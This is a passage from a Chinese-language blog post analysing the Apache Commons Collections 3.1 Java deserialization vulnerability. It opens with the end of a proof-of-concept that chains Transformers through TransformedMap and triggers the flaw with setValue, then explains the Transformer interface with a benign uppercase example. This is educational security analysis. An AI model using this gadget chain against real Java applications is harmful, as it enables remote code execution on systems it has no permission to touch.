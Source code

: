 ```
        Transformer transformerChain = new ChainedTransformer(transformers);

        //创建Map并绑定transformerChina
        Map innerMap = new HashMap();
        innerMap.put("value", "value");
        Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);

        //触发漏洞
        Map.Entry onlyElement = (Map.Entry) outerMap.entrySet().iterator().next();
        onlyElement.setValue("foobar");
    }
}
```

上面触发漏洞是自己增加了调用，虽然可能不影响分析漏洞成因，但是在gadget上，就缺少了一部分过程，不能直接在`readObject`后直接造成代码执行

#### 基础
需要对Java反序列化漏洞有一定了解，对ysoserial要能使用和Debug，可以参考[我的这篇文章](https://milkfr.github.io/%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/2018/12/01/analysis-java-deserialize/)，对ysoserial中的URLDNS分析后更方便理解

### 0x01 Commons Collections 3.1反序列化漏洞分析
#### 简介
Apache Commons Collections是一个扩展了Java标准库里的Collection结构的第三方基础库，它提供了很多强有力的数据结构类型并且实现了各种集合工具类。作为Apache开源项目的重要组件，Commons Collections被广泛应用于各种Java应用的开发

这里有两个特点，一个是它是一个第三方包，一个是它被广泛应用，这两点很重要，正是利用广泛，才有被发现漏洞的价值

Commons Collections实现了一个TransformedMap类，该类是对Java标准数据结构Map接口的一个扩展

该类可以在一个元素被加入到集合内时，自动对该元素进行特定的修饰变换，具体的变换逻辑由Transformer类定义，Transformer在TransformedMap实例化时作为参数传入

org.apache.commons.collections.Transformer这个类可以满足固定的类型转化需求，其转化函数可以自定义实现，我们的漏洞触发函数就是在于这个点。

```
public interface Transformer<I, O> {

    /**
     * Transforms the input object (leaving it unchanged) into some output object.
     *
     * @param input  the object to be transformed, should be left unchanged
     * @return a transformed object
     * @throws ClassCastException (runtime) if the input is the wrong class
     * @throws IllegalArgumentException (runtime) if the input is invalid
     * @throws FunctorException (runtime) if the transform cannot be completed
     */
    O transform(I input);

}
```

```
public void test() {
    //将input转化为大写
    Transformer<String, String> transformer = String::toUpperCase;
    List<String> list = new ArrayList<>();
    list.add("a");
    list.add("b");
    list.add("c");
    Collection<String> b = CollectionUtils.collect(list, transformer);
    System.out.println(b);
}
```

